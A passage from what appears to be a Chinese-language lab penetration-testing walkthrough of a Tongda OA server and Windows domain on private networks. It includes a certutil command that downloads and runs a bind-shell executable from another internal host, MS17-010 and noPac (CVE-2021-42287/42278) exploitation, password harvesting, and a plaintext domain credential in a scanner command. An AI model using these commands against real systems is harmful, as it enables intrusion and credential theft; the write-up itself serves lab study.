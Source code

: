 192.168.52.0/24还有一个通达OA系统，192.168.52.30

浏览器添加socks代理，查看OA版本,此版本存在多个漏洞

`http://192.168.52.30:8080/inc/expired.php`

![](http://qn.laohuan.xin/Snipaste_2022-02-03_14-42-12.png)

直接使用exp获得shell

![](http://qn.laohuan.xin/Snipaste_2022-02-03_14-46-58.png)

使用msf生成正向shell可执行程序，上传到dmz的web服务器，并开启简单的http服务

`python3 -m http.server 8082`

`certutil -urlcache -split -f http://192.168.52.10:8082/bind_53.exe && bind_53.exe`

![](http://qn.laohuan.xin/Snipaste_2022-02-04_11-36-41.png)

成功拿下OA服务器

![](http://qn.laohuan.xin/Snipaste_2022-02-04_12-20-15.png)

发现存在192.168.93.0/24段，添加路由并抓取密码

![](http://qn.laohuan.xin/Snipaste_2022-02-05_13-30-26.png)

#### 4.win7

扫描发现192.168.93.0/24存在2台机器，且192.168.93.30为域控，192.168.93.40存在永恒之蓝。

`net time /domain`

![](http://qn.laohuan.xin/Snipaste_2022-02-05_12-09-57.png)

![](http://qn.laohuan.xin/Snipaste_2022-02-04_13-21-29.png)

使用ms17-010拿下win7

![](http://qn.laohuan.xin/Snipaste_2022-02-05_12-49-20.png)

抓取密码

![](http://qn.laohuan.xin/Snipaste_2022-02-05_12-51-22.png)

#### 5.域控

前期发现192.168.93.30为域控制器，且存在ms17-010，但无法成功，猜测由于使用的是msf正向shell，域控防火墙处于开启状态导致获取shell失败。

遂使用ms14-068漏洞也利用失败

前期已获取到域账户密码，使用CVE-2021-42287 & CVE-2021-42278成功获取域控权限

扫描是否存在漏洞

`proxychains3 python3 scanner.py whoamianony.org/bunny:Bunny2021 -dc-ip 192.168.93.30 -use-ldap`
